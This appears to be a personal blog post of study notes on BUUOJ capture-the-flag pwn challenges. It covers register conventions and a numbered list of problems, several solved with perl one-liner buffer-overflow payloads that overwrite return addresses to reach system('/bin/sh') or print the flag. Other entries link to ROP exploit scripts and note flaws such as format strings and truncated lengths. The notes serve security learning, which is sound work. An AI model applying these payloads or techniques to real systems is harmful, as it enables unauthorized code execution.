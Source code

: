 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn"
date:   2020-08-26 22:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
   3. LibcSearcher
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Terminology

### [System call](https://blog.packagecloud.io/eng/2016/04/05/the-definitive-guide-to-linux-system-calls)

- x86:
  - system call via interrupt: `int 80`, `ebx, ecx, edx, esi, edi, ebp` with `eax` filled with system call number
- x86_64 with `rax` filled with system call number 
  - user call: `rdi, rsi, rdx, rcx, r8, r9`
  - system call: `rdi, rsi, rdx, r10, r8, r9`

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. [**RA**] rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. [**RA**] warmup_csaw_2016
   1. `system("cat flag.txt")` found
   2. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. [**RA**] pwn1_sctf_2016
   1. `'system("cat flag.txt")'` found
   2. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. [**RA**] ciscn_2019_n_1
   1. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**ROP**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**ROP**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. Flaw: `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**ROP**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1.  Peaceful exit ?
10. [**ROP**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5: [**Format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**ROP**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0
12. [**ROP**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1. Flaw: truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**ROP**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1. Or [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop
16. [**ROP**]({{ site.url }}/assets/BJDCTF_2nd_one_gadget.py) [BJDCTF 2nd]one_gadget
    1. The [one_gadget](https://github.com/david942j/one_gadget) tool
17. [**ROP**]({{ site.url }}/assets/bjdctf_2020_babystack.py) bjdctf_2020_babystack
18. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_5.py) ciscn_2019_n_5
    1.  libc: `http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb`
19. [**ROP**]({{ site.url }}/assets/ciscn_2019_s_3.py) [ciscn_2019_s_3](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
    1.  Construct `"/bin/sh"` on stack
    2.  ROP via `__libc_csu_init()`
    3.  Or, [`sigreturn()`](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
20. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop_2.py) [HarekazeCTF2019]babyrop2
    1.  Leaked address of `printf()` ends with `"\x00"` and outputs nothing
    2.  Construct `"/bin/sh"` and ROP chain in .bss segment
21. [**ROP**]({{ site.url }}/assets/pwn2_sctf_2016.py) [pwn2_sctf_2016]pwn2_sctf_2016
    1.  Flaw: only check if length <=0x20